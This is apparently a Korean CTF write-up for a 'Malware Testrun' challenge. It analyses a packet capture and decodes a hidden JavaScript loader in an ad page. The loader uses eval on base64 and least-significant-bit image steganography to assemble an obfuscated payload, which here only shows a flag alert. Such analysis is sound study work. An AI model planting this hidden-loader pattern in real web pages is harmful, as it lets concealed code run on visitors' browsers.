

## Malware Testrun (200)

> We heard a rumour that our website will be used to distribute malware. We believe we captured a test run of it. Can you find out what the malicious content will be?

 > [malwaretestrun.tgz](./malwaretestrun.tgz)  `53eff0e472db7ecfdd9a9534d3b05098`

 전체적을 패킷을 먼저 분석해보면 HTTP가 많다.

 `Wireshark`의 Export기능으로 파일을 일단 다 빼오자.

 

`html` 파일들을 읽다보니 굉장히 수상한 내용이 있었다.

### ads.html

```html
<html>
<head><title>Advertisement</title></head>

<body>


<script type="text/javascript">
eval(atob(document.images[0].src.replace(/.*,/, "")));

// Show ads
function showImage(i){
    document.images[0].src="images/ad00" + i + ".png";
}

for (i=0;i<7;i++){
    setTimeout(showImage,2000*i,i);
}

</script>
</body>
</html>
```

img의 base64를 decode해보면 다음과 같은 코드가 나온다.

```javascript
z = "";

function v(b) {
    s = '';
    for (i = 0, l = b.length; i < l; i += 8) {
        c = 0;
        for (j = 7; j >= 0; j -= 1) {
            c += b[i + 7 - j] << j;
        }
        s += String.fromCharCode(c);
    }
    return s;
}

function d(img) {
    i = 0;
    l = img.length;
    st = [];
    while (i < l) {
        st[i] = img[i * 4] & 1;
        i += 1;
    }
    return v(st);
}

function f() {
    w = i.naturalWidth;
    h = i.naturalHeight;
    c = document.createElement("canvas");
    x = c.getContext("2d");
    c.width = w;
    c.height = h;
    x.drawImage(i, 0, 0, w, h);
    t = d(x.getImageData(0, 0, w, h).data);
    if (t = t.match(/SHA.*SHA/)) {
        z += t[0].replace(/SHA/g, '');
    }
};

function q() {
    i = new Image();
    i.addEventListener('load', f, false);
    i.src = "notit.png"
}
setTimeout(q, 1000);

function a() {
    eval(z)
}
setTimeout(a, 200000)
```

그냥 `i.src`에  `notit.png`라고 되어있는데 `ad001.png` ~ `ad006.png`를 넣어 보기로 했다.

먼저 `ad001.png`를 해보니 `z`의 값이 `(+(+!+[]+[+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![`(길어서 생략)

이런식으로 난독화된 코드가 나오고 있었고 마지막 부분을  보면 괄호가 닫히지 않은 형태였다. 그래서 직감적으로 `ad006.png`까지 모두 `z`값을 이어붙여주면 `javascript` 코드가 완성될거라 생각했고 그게 정답이었다.

### eval(z)
```javascript
x=new Date();if(x.getDate()=="23"&&x.getHours()=="12"){alert("flag{02aa1488771e325eef9b0e5f0d2db626}")}
```

## Flag : flag{02aa1488771e325eef9b0e5f0d2db626}
